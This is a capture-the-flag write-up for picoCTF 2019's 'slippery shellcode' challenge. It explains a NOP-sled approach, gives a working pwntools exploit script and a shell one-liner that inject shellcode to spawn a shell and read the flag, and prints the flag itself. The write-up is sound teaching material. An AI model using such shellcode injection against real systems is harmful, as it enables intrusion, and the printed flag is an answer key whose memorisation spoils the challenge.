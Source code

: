 As you see this is similar to [handy shell overflow](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/handy-shell-overflow.MD)
but the call is not to the beggining of the `buf`, rather to some address between buf+<0,256>. 

We have two way to solve this:
1- Burte-force 
By shifting our shell by any value between 0 and 256 say 100, then we run the previous code in a loop until we get the shell.
the random number definitly will hit the 100 at some point. 
2- NOPs 
fill 256 bytes before the actual shellcode with NOP (0x90), so when jump to any of this it will slip until it hits the 
shellcode. 

Note: this is possible because the BUFSIZE is 512 (i.e. >256)

I choose the second one. 

To make it simple just ssh to the picoCTF and run any of the following code.
```
from pwn import *
import sys

sh = process('/problems/slippery-shellcode_3_68613021756bf004b625d7b414243cd8/vuln')

sh.sendlineafter(':\n','\x90'*256+asm(shellcraft.linux.sh()))
# OR
#sh.sendlineafter(':\n', '\x90'*256+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')

while("$" not in sh.recvline()):
    pass

sh.send('cat /problems/slippery-shellcode_3_68613021756bf004b625d7b414243cd8/flag.txt\n')
sh.interactive()
```

Another way similar to what we did in [handy shell overflow](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/handy-shell-overflow.MD)
```
(python -c 'import pwn; print(pwn.asm(pwn.shellcraft.nop())*256+pwn.asm(pwn.shellcraft.linux.sh()))';cat)|./vuln
```
flag is `picoCTF{sl1pp3ry_sh311c0d3_de21cb07}`
